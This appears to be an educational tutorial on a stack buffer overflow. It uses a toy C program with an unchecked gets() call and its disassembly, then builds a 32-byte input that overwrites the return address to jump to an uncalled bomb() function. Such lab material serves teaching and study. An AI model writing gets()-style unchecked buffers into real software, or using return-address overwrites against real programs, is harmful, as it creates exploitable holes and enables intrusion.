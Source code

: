 # Stack Overflow Level 2

> In this level, we will continue from level 1. The main goal is to forge the return address, making function to jump to somewhere we intended. 

## Goals
* Hunt down the structure of program
* Compose a proper string and do testing work

## Hunt
There is a funcion `bomb()` in `example2.c`, which seems not called by any function. By modifying the return address in the stack, we want to trigger the bomb. Interesting?

This requires us to inverstigate into where the return address is pushed at. Let's first experiment with it.

    //example2.c
    #include <stdio.h>
    #define BUF_SIZE 8

    void bomb(){
      printf("BANG!!!!!\n");
    }

    void readBuf(){
      char buf[BUF_SIZE];
      gets(buf);
    }

    int main(){
      readBuf();
      printf("exit normally :(\n");
      return 0;
    }


So, let's exploit the disassembled code:

    000000000040057d <bomb>:
      40057d:       55                      push   %rbp
      40057e:       48 89 e5                mov    %rsp,%rbp
      400581:       bf 54 06 40 00          mov    $0x400654,%edi
      400586:       e8 c5 fe ff ff          callq  400450 <puts@plt>
      40058b:       5d                      pop    %rbp
      40058c:       c3                      retq   

    000000000040058d <readBuf>:
      40058d:       55                      push   %rbp
      40058e:       48 89 e5                mov    %rsp,%rbp
      400591:       48 83 ec 10             sub    $0x10,%rsp
      400595:       48 8d 45 f0             lea    -0x10(%rbp),%rax
      400599:       48 89 c7                mov    %rax,%rdi
      40059c:       e8 df fe ff ff          callq  400480 <gets@plt>
      4005a1:       c9                      leaveq 
      4005a2:       c3                      retq   


Here, we know two things: First, we needs to feed in a string _a little longer_ than `0x10` bytes. And, the address of bomb is `0x0000 0000 0040 057d`

## Hack
Let's do experiment first, we'll use a 14 byte long string, which is composed entirely of `FF`: 

    FF FF FF FF
    FF FF FF FF
    FF FF FF FF
    FF FF

the output is: `exit normally :(`, sadly normal.

So, let make it 20 bytes long. Still normally.

Now, 24 bytes. The output is silent.

Finally, 28 bytes. `Segmentation fault (core dumped)`

So, I want to make a good explanation here.

16 bytes should be reserved for data. Then the pushed `%rbp`, which should be 8 bytes. Then, the return address, 8 more bytes. If on 32-bit width string, we just needs 4 bytes each.

So, in order to hack into the return address. we need 16 + 8 + 8 = 32 bytes. The ending 8 bytes would be our forged return address.

    FF FF FF FF
    FF FF FF FF
    FF FF FF FF
    FF FF FF FF

    FF FF FF FF
    FF FF FF FF

    7D 05 40 00
    00 00 00 00


And `BANG!!!`, mind the little endian problem as well, dear reader.